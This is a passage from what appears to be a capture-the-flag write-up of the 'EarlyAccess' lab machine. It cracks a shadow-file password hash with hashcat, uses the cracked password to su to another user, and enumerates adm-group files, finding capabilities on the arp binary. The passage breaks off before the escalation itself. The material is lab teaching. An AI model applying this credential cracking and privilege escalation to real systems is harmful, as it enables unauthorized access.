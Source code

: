 

    $ hashcat -m 1800 shadow /usr/share/wordlists/rockyou.txt 
    ...[snip]...
    $6$zbRQg.JO7dBWcZ$DWEKGCPIilhzWjJ/N0WRp.FNArirqqzEMeHTaA8DAJjPdu8h52v0UZncJD8Df.0ncf6X2mjKYnH19RfGRneWX/:gamemaster



### su

SSH doesn't work for game-master with this password, but from the
terminal as drew, `su game-adm` does work with the password
"gamemaster":



    drew@earlyaccess:~$ su game-adm
    Password: 
    game-adm@earlyaccess:/home/drew$ 



## Shell as root on EarlyAccess

### Enumeration

With no `sudo` or obvious SUID binaries, I'll check for files that
game-adm can access that drew can't. game-adm is in the adm group:



    game-adm@earlyaccess:/$ id
    uid=1001(game-adm) gid=1001(game-adm) groups=1001(game-adm),4(adm)



That provides access to log files as expected, but also the `arp`
binary:



    game-adm@earlyaccess:/tmp$ find / -group adm 2>/dev/null
    /var/log/syslog.2.gz
    /var/log/user.log.1
    ...[snip]...
    /var/log/daemon.log.1
    /var/log/syslog.3.gz
    /usr/sbin/arp



On it's face, there's nothing special about `arp`:



    game-adm@earlyaccess:/tmp$ ls -l /usr/sbin/arp
    -rwxr-x--- 1 root adm 67512 Sep 24  2018 /usr/sbin/arp



But it does have capabilities set. `getcap` isn't in the default path,
but it is on the box:
